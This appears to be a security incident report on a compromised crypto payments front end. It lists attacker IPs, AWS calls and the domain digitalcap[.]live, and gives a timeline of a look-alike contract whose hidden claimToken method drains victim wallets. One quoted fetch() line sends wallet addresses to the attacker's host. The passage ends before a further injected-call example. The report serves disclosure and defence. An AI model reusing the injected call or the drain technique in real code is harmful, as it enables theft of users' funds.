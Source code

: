 




## Indicators

- 158.62.198[.]195 - 2025-07-30 - AWS user fider ran ListBuckets

- 158.62.198[.]195 - 2025-08-11 - AWS user gh-actions-invoicing ran ListBuckets

- 185.18.222.251 - 2025-08-28 - AWS user gh-actions-invoicing ran GetBucketWebsite

- digitalcap[.]live - handles balance checking  `fetch(`https://digitalcap[.]live/validate-address?address=${fromAddress}`)`











## Timeline

- 2025-07-10 - attackers create an account with johnwilliamsdev92@gmail.com (named John below)
- 2025-07-10 - attackers create an account with danielmercer0503@gmail.com (named Daniel below)
- 2025-07-11 - attackers create an account with jonny.wang522@gmail.com (named Jonny below)
- 2025-07-11 - attackers test the app by having Jonny send 3 bills to John.
- 2025-07-11 - first payment directly linked to pre-hack testing and discovery (2 USDT)
- 2025-07-17 - attackers test the app by having Jonny send 3 more bills to John
- 2025-07-17 - first batch payment of 1 of the 3 bills created the same day, + another bill sent by Daniel (5 USDT x2)
- 2025-07-30 - AWS user fider ran ListBuckets from 158.62.198.195
- 2025-08-?? - Various days, the attackers create other accounts, and bills, and make other payments. 11 free accounts are created in total
- 2025-09-?? - Various days, the attackers create other accounts, and bills, and make other payments. 11 free accounts are created in total
- 2025-08-11 - AWS user gh-actions-invoicing ran ListBuckets from 158.62.198.195
- 2025-08-12 - oldest evidence of local development, as indicated by the way these users authenticate. (Due to our log retention window limit, there might be older local development practices)
- 2025-08-28 - AWS user gh-actions-invoicing ran GetBucketWebsite from 185.18.222.251
- 2025-08-29 - attackers create a Safe wallet used for testing, its address is 0xDE6320e3365cA26af4ca57762dbc5DA3c940f08f and we refer to this address as fraud_f08f_safe.
- 2025-08-29 15:00 the attacker creates the compromised contract, named BatchConversionPayments like our most used contract, with a similar programming interface, very close address, and even similar activity. The legit contract and this contract have the same first and last characters: 0x3cf6...c03f. This contract has an additional method `claimToken` that the attacker can call to empty the victim's wallet (up to its ERC20 allowance).
- 2025-08-27 10:39 RF publishes the clean release 1.144.0
- 2025-09-01 22:05 First compromised version of the front-end. It targets 2 wallets: the future victim’s wallet and the fraud_f08f_safe. We could observe the first calls to digitalcap[.]live backend, with POST methods used to follow-up on the code being executed. Find below one example of injected call (“[.]” was added for this report):

